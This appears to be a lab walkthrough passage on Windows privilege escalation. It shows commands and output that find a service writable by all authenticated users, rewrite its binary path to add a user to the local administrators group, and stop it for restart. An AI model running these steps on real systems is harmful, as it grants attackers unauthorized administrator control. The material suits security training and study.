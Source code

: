 ```
 C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
 
Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com
 
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```

##### Check Local Admin Group

```
C:\> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
 
Members
 
-------------------------------------------------------------------------------
Administrator
mrb3n
The command completed successfully.
```

##### Changing the Service Binary Path

```
C:\> sc config WindscribeService binpath="cmd /c net localgroup administrators admin2 /add"

[SC] ChangeServiceConfig SUCCESS
```

##### Stopping Service

```
C:\> sc stop WindscribeService
 
SERVICE_NAME: WindscribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x4
        WAIT_HINT          : 0x0
```
we must stop the service, so the new binpath command will run the next time it is started
